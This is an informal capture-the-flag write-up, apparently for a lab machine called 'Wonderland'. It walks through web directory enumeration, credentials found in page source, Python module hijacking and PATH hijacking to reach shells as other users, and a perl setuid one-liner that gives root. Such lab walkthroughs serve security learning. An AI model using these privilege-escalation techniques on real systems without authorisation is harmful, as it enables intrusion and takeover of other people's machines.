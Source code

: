 # Here Are Notes For My WriteUp

## Enumeration
nmap scan:
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
dirb scan:
```
---- Scanning URL: http://10.10.2.87/ ----
==> DIRECTORY: http://10.10.2.87/img/                                             
+ http://10.10.2.87/index.html (CODE:301|SIZE:0)                                  
==> DIRECTORY: http://10.10.2.87/r/    
```

### [port 80] - website
title says "Follow the White Rabbit.", there is also a picture of a white rabbit on the site
![alt](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%2020211022000513.png?raw=true)

during the dirb scan we find a directory "r", now when we go to this directory we are confronted with this message:
```
# Keep Going.

"Would you tell me, please, which way I ought to go from here?"
```
![](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%20211022001051.png?raw=true)
now, knowing what we know with all the rabbit stuffs we can assume there might be another directory following the word rabbit, and sure enough when we direct to "/r/a" it continues this message:
```
# Keep Going.

"That depends a good deal on where you want to get to," said the Cat.
```
![](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%20211022001227.png?raw=true)
now im not going to waste time in this so we'll just skip to the part where we get to "/r/a/b/b/i/t" where we find this:
![[Pasted%20image%20211022001333.png]]

## Initial Foothold
---
now, inspecting the source code we find an ssh username and password for the user "alice" 
![](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%20211022001558.png?raw=true)
```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```
we can assume this is an ssh login as it is the only other service running on this machine, and sure enough... it works!
![](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%20211022001830.png?raw=true)

![](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%20211022002113.png?raw=true)
listing alice's directory we find two iregular things, for one the root flag is stored on the user's profile, yet no user flag is to be found, odd. the next iregular thing would be the python script named "walrus_and_the_carpenter.py"


now, lets start some priviledge escalatin !!

## Priviledge Escalation
i love this machine as it requires alot of horizontal movement, and features some cool privesc, not just a kernel exploit here and there (atleast, not at the beginning, tehe)

### Moving Laterally (alice -> rabbit)
first thing i usually do when i have a password for a user is to run "sudo -l" to see if we are able to run anything as root or a more priviledged user. running this here we find out we can run the python script we found earlier as the user "rabbit"
![](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%20211022002946.png?raw=true)

now looking into the script, we see that it imports the "random" module and prints 10 random lines from the "poem" variable:
```python
import random
poem = "long fucking poem lulull"

for i in range(10):
    line = random.choice(poem.split("\n"))
```
**NOTE: THE POEM VARIABLE HAS BEEN SHORTENED AS TO NOT MAKE THIS SCRIPT TAKE UP HALF OF THE PAGE**

now you may be thinking to yourself, welp this script cant help us at all, its IRON CLAD!! welp, you'd be wrong !!!! 

before we start writing our own script, let me give you a brief lesson in how python accesses modules. now when you import a module python first, before looking for it elsewhere checks locally, within the folder that the script is stored in to see if there is a python file with the same name. 

knowing this we can now go ahead and intercept the search for the "random" module by writing our own "random.py" script, using the "choice" function to spawn a shell, as this is what function the script is accessing. here is what our "random.py" should look like

```
import pty

def choice(x):
    pty.spawn("/bin/bash")
```
remember and add the "(x)" as the script provides an input and we dont want to cause any unwanted errors, and we dont need to return anything because we will have shell lul (technically we could set a keypress to return and exit the program if we need a way out but i cba writing that in lulu :p)

now for a sanity check lets run the code on the interpreter just to check pty will work on this machine:
![](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%20211022004354.png?raw=true)
as we can see, it works perfect :)

now running 
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
we should now get a shell as rabbit!
```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$
```

now moving to /home/rabbit we find a perculiar file 
![](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%20211022004932.png?raw=true)

---
### Moving Laterally Once More (rabbit -> hatter)
looking at this file's permisions we see that it is a SUID binary !!!! woow, now how this is going to work is verry similar to what we just did with random.py, only now with bash !!!!!
![](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%20211022005141.png?raw=true)

as we can see this is an executable, not a script so we cant just cat it out like normal... or can we?

![](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%20211022005347.png?raw=true)
catting out the executable shows a bunch of gibberish but around the middle we can see some text !!!!! normally we would run strings to see this more clearly but this machine doesnt seem to have it installed :(

looking at the text we can read we see a possible attack vector... date!!!!!

now you may also see the echo command being used, but we cannot use this as an attack vector as this uses a full path to the echo file, however, date does not. and we can use this to our advantage.

#### SUID TUTORIAL FOR NEWBS
#### #1 - FIND ATTACK VECTOR
done :)
#### #2 - MAKE UR SCRIPT
now we have our attack vector "date", we can now create a fake "date" script and make the "teaParty" script run our fake one and give us a shell, ez-pz!!! write this script and save it as "date"
```bash
#!/bin/bash

bash
```

#### #3 - MAKE IT ABL 2 RUN
now run chmod +x on our script to make it executable
```bash
chmod +x /home/rabbit/date
```

#### #4 - ADD THE SCRIPT'S FOLDER TO THE START OF THE $PATH VARIABLE SO THE EXECUTABLE SEE'S OUR MALICIOUS SCRIPT FIRST
move to /home/rabbit/date and run this command
```bash
export PATH=$(pwd):$PATH
```

#### #5 - HOPE FOR THE BEST
now for the moment of truth, run the teaParty script and you should hopefully have a shell!!!!!
![](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%20211022010818.png?raw=true)

and boom !!! we have sucessfully privesc'd 2 accounts. now to get to root, hehe :3

we can start by moving to /home/hatter where we find an ssh password for hatter, deserved after having to deal with 2 variations of shitty shells heheh..
![](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%20211022011257.png?raw=true)

### The Final Beast - (hatter -> root)
Congrats, we are now on the last stage, and probably the most fluid method of them all, the few before this were layed pretty much right infront of us, but this is more just up to what you know.

now personally the method i went for was setuid capabilities found in perl, now this, as far as i know isnt very common. or atleast very basically known, but my friend stumbled upon it while running privesc enum scripts and looking at gtfobins

so run:
```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
and hey presto!! we have root!
![](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%20211022012719.png?raw=true)

capabilities seems to be really powerful, so im going to research them a bit more after this hahah

## Finding user.txt
now we know where root.txt is, but we never saw user.txt anywhere..

```
find / -type f -name user.txt 2>/dev/null
```
![](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%20211022013113.png?raw=true)

hmmm... it seems root and user switched places !!!! well, this is very odd heheh.. oh well, not the matter, we can now access both!!!
![](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%20211022013217.png?raw=true)

![](https://github.com/astr4lite/wonderl4nd/blob/main/Pasted%20image%20211022013259.png?raw=true)

boom, one step closer to 0xA, heheh


